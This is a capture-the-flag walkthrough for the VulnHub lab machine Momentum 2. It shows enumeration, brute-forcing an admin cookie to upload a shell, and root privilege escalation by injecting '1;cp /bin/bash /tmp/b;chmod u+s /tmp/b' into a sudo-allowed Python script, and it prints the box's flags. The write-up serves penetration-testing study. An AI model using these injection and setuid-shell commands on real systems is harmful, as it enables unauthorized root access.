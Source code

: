 # Momemtum
# Link: https://www.vulnhub.com/entry/momentum-2,702/

## Enum

### Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```
/index.html           (Status: 200) [Size: 1428]
/img                  (Status: 301) [Size: 312] [--> http://192.168.1.145/img/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.1.145/css/]
/ajax.php             (Status: 200) [Size: 0]                                  
/manual               (Status: 301) [Size: 315] [--> http://192.168.1.145/manual/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.1.145/js/]    
/dashboard.html       (Status: 200) [Size: 513]                                   
/owls                 (Status: 301) [Size: 313] [--> http://192.168.1.145/owls/]  
/server-status        (Status: 403) [Size: 278] 
```

Intresting...

```
http://192.168.1.145/dashboard.html
```

We can upload files but only .txt seems to be accpeted. Checking out the code for main.js we can see the AJAX call (POST) to upload the file.  

![image](https://user-images.githubusercontent.com/5285547/123197771-efa11080-d4a3-11eb-82bd-0d876351ea2b.png)

Looking for the ajax.php we can also noticed there is a backup copy ajax.php.bak

```
http://192.168.1.145/ajax.php.bak
```

![image](https://user-images.githubusercontent.com/5285547/123197920-2bd47100-d4a4-11eb-8802-f6f354117b28.png)

Now we know we need to set the admin cookie (adding an extra charater as the hint suggests).  
We will use Burp for this. 

![image](https://user-images.githubusercontent.com/5285547/123198397-f3816280-d4a4-11eb-9cf5-b68d3d2627a9.png)

Next we need to work out that last char, so send the request to Burp's Intruder tab, Add a letter to the cookie and highlight it and click 

![image](https://user-images.githubusercontent.com/5285547/123198517-275c8800-d4a5-11eb-83e7-e81f76d24a91.png)

Using some python we can quickly list the alphabet. 

```
python3 -c 'import string;                                                                                 1 ⨯
for c in string.ascii_lowercase:          
        print(c)'
a
b
c
d
e
.
.
.
```

Add the list to burps paylaods section and fire away!  

![image](https://user-images.githubusercontent.com/5285547/123201606-e8313580-d4aa-11eb-9e76-26c390b7e328.png)

We get a result! Seems 'R' was the missing letter

![image](https://user-images.githubusercontent.com/5285547/123201561-d2237500-d4aa-11eb-9309-50c82a0d91fb.png)

Visiting the owls directory we can see our shell.php   
Time to get catch the reverseshell and get on the box

```
http://192.168.1.145/owls/
```

## User

Moving to /home/athena we can get our first flag and see a note for password-reminder.txt

password-reminder.txt
```
password : myvulnerableapp[Asterisk]
```

flag
```
4WpJT9qXoQwFGeoRoFBEJZiM2j2Ad33gWipzZkStMLHw
```

Using the password we can login as Athena and see if we can privesc to root

## Root

Athena
sudo -l

```
(root) NOPASSWD: /usr/bin/python3 /home/team-tasks/cookie-gen.py
```

Running 
```
sudo python3 /home/team-tasks/cookie-gen.py
```

Gives us a new cookie value, checking the source code we can see some variable abuse in the CMD calling the subprocess.Popen

Code
```cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

We should be able to abuse this with command injection techniques. 
Sure enough a quick test gives us root. 

```
sudo python3 /home/team-tasks/cookie-gen.py 
~ Random Cookie Generation ~
[!] for security reasons we keep logs about cookie seeds.
Enter the seed : 1;bash -i
```

But its not stable, lets try again.. 

```
Enter the seed : 1;cp /bin/bash /tmp/b;chmod u+s /tmp/b
```
Now try the new bash shell :)

```
/tmp/b -p
```

Now we can access the last flag for the box. 

```
b-5.0# id
uid=1000(athena) gid=1000(athena) euid=0(root) groups=1000(athena),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

And flag

```
4bRQL7jaiFqK45dVjC2XP4TzfKizgGHTMYJfSrPEkezG
```
